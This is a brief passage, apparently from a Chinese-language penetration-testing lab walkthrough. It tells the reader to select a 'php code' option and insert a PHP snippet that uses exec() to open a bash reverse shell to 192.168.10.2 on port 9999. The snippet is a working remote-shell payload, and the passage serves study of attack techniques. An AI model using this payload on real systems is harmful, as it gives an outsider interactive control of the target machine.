 ![](./pic-8/25.jpg)

尝试编写代码进行测试，先选择`php code`，然后添加下面的代码

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");?>
```

![](./pic-8/26.jpg)
